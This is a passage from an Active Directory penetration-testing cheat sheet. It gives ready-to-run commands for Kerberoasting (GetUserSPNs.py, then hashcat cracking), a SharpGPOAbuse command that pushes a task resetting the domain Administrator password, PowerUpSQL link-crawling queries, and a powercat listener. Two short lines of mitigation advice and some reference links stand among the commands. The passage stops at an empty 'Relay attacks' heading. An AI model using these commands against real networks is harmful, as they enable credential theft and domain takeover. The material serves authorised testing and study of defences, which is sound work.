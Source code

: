 The goal of Kerberoasting is to harvest TGS tickets for services that run on behalf of user accounts in the AD, not computer accounts.

```
GetUserSPNs.py -request -dc-ip 192.168.1.10 COMPANY.LOCAL/jdoe:PasswordJdoe123 -outputfile hashes.kerberoast
hashcat -m 13100 --force -a 0 hashes.kerberoast passwords_kerb.txt
```


--> To protect against this attack, we must avoid having *SPN* on user accounts, in favor of machine accounts.  
--> If it is necessary, we should use Microsoft’s Managed Service Accounts (MSA) feature, ensuring that the account password is robust and changed regularly and automatically

### Kerberos Bronze Bit
https://www.netspi.com/blog/technical/network-penetration-testing/cve-2020-17049-kerberos-bronze-bit-overview/
https://www.netspi.com/blog/technical/network-penetration-testing/cve-2020-17049-kerberos-bronze-bit-theory/
https://www.netspi.com/blog/technical/network-penetration-testing/cve-2020-17049-kerberos-bronze-bit-attack/

### Abusing Vulnerable GPO
```
\SharpGPOAbuse.exe --AddComputerTask --Taskname "Update" --Author DOMAIN\<USER> --Command "cmd.exe" --Arguments "/c net user Administrator Password!@# /domain" --GPOName "ADDITIONAL DC CONFIGURATION"
```

### Abusing MS-SQL Service
- https://www.offsec-journey.com/post/attacking-ms-sql-servers
- https://github.com/NetSPI/PowerUpSQL/wiki/PowerUpSQL-Cheat-Sheet

```
. ./PowerUPSQL.ps1
Get-SQLInstanceLocal -Verbose
(Get-SQLServerLinkCrawl -Verbose -Instance "10.10.10.20" -Query 'select * from master..sysservers').customquery 

Import-Module .\powercat.ps1 powercat -l -v -p 443 -t 10000
```

### Relay attacks